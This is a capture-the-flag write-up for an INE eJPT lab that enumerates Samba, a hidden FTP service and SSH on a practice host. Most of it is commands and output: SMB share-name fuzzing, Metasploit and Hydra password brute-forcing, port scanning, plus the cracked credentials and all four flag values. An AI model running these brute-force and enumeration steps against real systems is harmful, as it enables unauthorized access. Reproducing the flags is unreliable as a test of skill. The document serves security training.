






# 🔍 INE Lab: Assessment Methodologies — Enumeration CTF 1

**Platform:** INE Security  
**Course / Certification:** eJPT (Junior Penetration Tester)  
**Category:** Assessment Methodologies / Enumeration (SMB, FTP & Network Services)  
**Target:** `target.ine.local` (`192.234.23.3` / `192.144.54.3`)  
**Difficulty:** Easy - Medium  
**Status:** ✅ Completed (4 of 4 Flags Captured)  
**Date Completed:** 2026-10-16  
**Author:** adiiiii-ti  

---

## 📝 Objective / Summary

The goal of this Skill Check lab is to perform in-depth network service enumeration across a target Linux system running Samba (SMB), a non-standard FTP service, and OpenSSH. By chaining automated enumeration tools, custom bash fuzzing scripts, Metasploit auxiliary modules, Hydra brute-forcing, and banner inspection, we uncover and capture all **4 hidden flags**.




---

## 🛠️ Tools & Wordlists Used

### Tools
- **Nmap** (`7.94SVN`) — Full TCP port scan (`-p-`) and service version detection (`-sV`).
- **smbclient** — Interactive SMB client for share listing, anonymous connection, and file downloads.
- **Metasploit Framework** (`v6.4.12-dev`):
  - `auxiliary/scanner/smb/smb_enumusers` — SAM user enumeration.
  - `auxiliary/scanner/smb/smb_login` — SMB credential brute-forcing.
- **THC-Hydra** (`v9.5`) — Network login cracker for non-standard FTP service.
- **Netcat (`nc`)** — Banner grabbing on network ports.
- **OpenSSH Client** — SSH connection and pre-authentication banner capture.

### Wordlists
- `/root/Desktop/wordlists/shares.txt` — Wordlist of potential SMB share names.
- `/root/Desktop/wordlists/unix_passwords.txt` — Common UNIX password candidates.
- `/usr/share/metasploit-framework/data/wordlists/common_users.txt` — Standard username list.

---

## 🏁 Flags Quick Summary

| Flag | Value | Challenge Task / Method | Service / Port |
| :--- | :--- | :--- | :--- |
| **FLAG 1** | `FLAG1{dbeb87703e294d8485459289c01a96b0}` | Anonymous Samba share discovery (`pubfiles`) | SMB / 445 |
| **FLAG 2** | `FLAG2{2c09786e6259468d8c1bc761740e8738}` | SMB user enum & password brute force (`josh:purple`) | SMB / 445 |
| **FLAG 3** | `FLAG3{ef232de232304c6587e544b5023242f2}` | Non-standard FTP discovery (5554) & Hydra attack (`alice:pretty`) | vsFTPd / 5554 |
| **FLAG 4** | `FLAG4{79e9047342f64df483a46006d072d9a5}` | SSH unauthorized access deterrent warning banner | OpenSSH / 22 |

---

## 🚩 Flag 1: Anonymous Samba Share Fuzzing (`pubfiles`)

### Challenge Prompt:
> *"There is a samba share that allows anonymous access. Wonder what's in there!"*

### 1. Initial Share Listing
Attempting an anonymous share listing with `smbclient` displayed only default public entries:

```bash
smbclient -L //target.ine.local -N
```

```text
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (target server (Samba, Ubuntu))
```

However, SMB servers often host shares configured with `browseable = no`, meaning they will not show up in `-L` listings, but can still be accessed directly if their names are known.

### 2. Scripting SMB Share Fuzzing
Using `/root/Desktop/wordlists/shares.txt`, we scripted a bash loop using `smbclient` to test each candidate name anonymously (`-N`) and filter out `NT_STATUS_BAD_NETWORK_NAME` and `NT_STATUS_ACCESS_DENIED`:

```bash
while IFS= read -r share; do
  output=$(smbclient "//target.ine.local/$share" -N -c 'ls' 2>&1)

  if ! echo "$output" | grep -q "NT_STATUS_BAD_NETWORK_NAME" &&
     ! echo "$output" | grep -q "NT_STATUS_ACCESS_DENIED"; then
    echo "=== $share ==="
    echo "$output"
  fi
done < /root/Desktop/wordlists/shares.txt
```

### Result:
```text
=== pubfiles ===
  .                                   D        0  Fri Oct 16 11:15:05 2026
  ..                                  D        0  Tue Nov 19 10:44:41 2024
  flag1.txt                           N       40  Fri Oct 16 11:15:05 2026

                1981311780 blocks of size 1024. 41759204 blocks available
```



### 3. Retrieving Flag 1:
```bash
smbclient //target.ine.local/pubfiles -N -c 'get flag1.txt'
cat flag1.txt
```

```text
FLAG1{dbeb87703e294d8485459289c01a96b0}
```

> **Key Takeaway:** Setting `browseable = no` on an SMB share is security through obscurity. If anonymous or guest access is allowed, anyone who guesses or brute-forces the share name can still read the files.

---

## 🚩 Flag 2: SMB User Enumeration & Credential Cracking

### Challenge Prompt:
> *"One of the samba users have a bad password. Their private share with the same name as their username is at risk!"*

### 1. Enumerating SMB Users
To avoid guessing random usernames, we leveraged Metasploit’s `auxiliary/scanner/smb/smb_enumusers` module:

```bash
msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_enumusers
msf6 auxiliary(scanner/smb/smb_enumusers) > set RHOSTS target.ine.local
msf6 auxiliary(scanner/smb/smb_enumusers) > run
```

```text
[+] 192.234.23.3:445 - TARGET [ josh, nancy, bob ] ( LockoutTries=0 PasswordMin=5 )
```

Discovered users: **`josh`**, **`nancy`**, and **`bob`**.

### 2. Password Brute-Forcing with Metasploit
We created a targeted user list (`/tmp/ine_users.txt`) containing the discovered accounts and loaded `auxiliary/scanner/smb/smb_login`:

```bash
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS target.ine.local
msf6 auxiliary(scanner/smb/smb_login) > set USER_FILE /tmp/ine_users.txt
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > run
```



```text
[-] 192.234.23.3:445 - Failed: '.\josh:admin',
[-] 192.234.23.3:445 - Failed: '.\josh:123456',
...
[+] 192.234.23.3:445 - Success: '.\josh:purple'
```



Valid credential found: **`josh:purple`**!

### 3. Accessing Josh's Private Share
In Linux Samba installations, `[homes]` shares automatically publish each user's home folder under their username:

```bash
smbclient //target.ine.local/josh -U 'josh%purple'
```

Inside the share:
```text
smb: \> ls
  flag2.txt                           N      119  Fri Oct 16 11:15:05 2026
smb: \> get flag2.txt
smb: \> exit
```

Inspecting `flag2.txt`:
```bash
cat flag2.txt
```

```text
FLAG2{2c09786e6259468d8c1bc761740e8738}

Psst! I heard there is an FTP service running. Find it and check the banner.
```



**Flag 2:** `FLAG2{2c09786e6259468d8c1bc761740e8738}`

> **Pivoting Clue:** `flag2.txt` contains a hint: *"Psst! I heard there is an FTP service running. Find it and check the banner."*

---

## 🚩 Flag 3: Non-Standard FTP Discovery & Hydra Attack

### Challenge Prompt:
> *"Follow the hint given in the previous flag to uncover this one."*

### 1. Discovering the Hidden FTP Port
Standard FTP runs on port 21, but checking port 21 showed it was closed. We conducted a full port scan across all 65,535 ports:

```bash
nmap -Pn -n -p- -sV target.ine.local -oN full_scan.txt
```

### Scan Findings:
```text
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
5554/tcp open  ftp         vsftpd 2.0.8 or later
```

Port **5554/tcp** was running **vsFTPd**!

### 2. Grabbing the Service Banner
Using Netcat, we connected to port 5554 to inspect the banner:

```bash
nc -nv 192.234.23.3 5554
```

```text
(UNKNOWN) [192.234.23.3] 5554 (?) open
220 Welcome to blah FTP service. Reminder to users, specifically ashley, alice and amanda to change their weak passwords immediately!!!
```

The banner explicitly leaked 3 valid usernames: **`ashley`**, **`alice`**, and **`amanda`**!

### 3. Password Cracking via Hydra
We targeted the FTP service on port 5554 using THC-Hydra with `/root/Desktop/wordlists/users.txt` and `/root/Desktop/wordlists/unix_passwords.txt`:

```bash
hydra -L /root/Desktop/wordlists/users.txt \
      -P /root/Desktop/wordlists/unix_passwords.txt \
      -s 5554 ftp://target.ine.local
```

### Hydra Output:
```text
[5554][ftp] host: target.ine.local   login: alice   password: pretty
```

Valid credential found: **`alice:pretty`**!

### 4. Logging in and Downloading Flag 3:
```bash
ftp
ftp> open target.ine.local 5554
Name (target.ine.local:root): alice
Password: pretty
230 Login successful.
ftp> ls
-rw-rw-r--    1 0        0              40 Oct 16 05:45 flag3.txt
ftp> get flag3.txt
ftp> bye
cat flag3.txt
```

```text
FLAG3{ef232de232304c6587e544b5023242f2}
```

**Flag 3:** `FLAG3{ef232de232304c6587e544b5023242f2}`

> **Key Takeaway:** Moving services to high/non-standard ports (like 5554) does not prevent discovery by attackers running full-range port scans. Furthermore, verbose banners that name employees or remind them of weak passwords give attackers exact targets for credential brute-forcing.

---

## 🚩 Flag 4: SSH Pre-Authentication Warning Banner

### Challenge Prompt:
> *"This is a warning meant to deter unauthorized users from logging in."*

### 1. Analyzing the Clue
"A warning meant to deter unauthorized users from logging in" refers to standard legal warning banners (often displayed via `/etc/issue.net` in OpenSSH) presented to users **before** authentication takes place.

### 2. Triggering the Banner
Using OpenSSH, we connected to port 22 with the discovered user `alice`:

```bash
ssh alice@192.234.23.3
```

### Pre-Authentication Banner Output:
```text
********************************************************************
*                                                                  *
*            WARNING: Unauthorized access to this system           *
*            is strictly prohibited and may be subject to          *
*            criminal prosecution.                                 *
*                                                                  *
*            This system is for authorized users only.             *
*            All activities on this system are monitored           *
*            and recorded.                                         *
*                                                                  *
*            By accessing this system, you consent to              *
*            such monitoring and recording.                        *
*                                                                  *
*            If you are not an authorized user,                    *
*            disconnect immediately.                               *
*                                                                  *
********************************************************************
*                                                                  *
*    Is this what you're looking for?: FLAG4{79e9047342f64df483a46006d072d9a5}       *
*                                                                  *
********************************************************************
```

Right inside the legal disclaimer banner, Flag 4 was printed in plaintext!

**Flag 4:** `FLAG4{79e9047342f64df483a46006d072d9a5}`

> **Key Takeaway:** Pre-login banners are publicly displayed to any client attempting a connection, even before credentials are entered. They must never contain internal details, hints, or sensitive infrastructure notes.

---

## 🧠 Key Learnings & Takeaways

1. **SMB Share Security:** Never rely on non-browseable share settings (`browseable = no`) as a security boundary. Restrict access using explicit group permissions and disable guest/anonymous access.
2. **Password Complexity:** User accounts (`josh:purple`, `alice:pretty`) succumbed to dictionary attacks within seconds. Enforce strong password complexity policies.
3. **Obscurity is Not Security:** Running FTP on port 5554 rather than 21 provided zero real protection against full-range port scanners.
4. **Information Disclosure in Banners:** FTP banners and SSH MOTD warnings should never leak usernames, operational notes, or sensitive strings to unauthenticated clients.
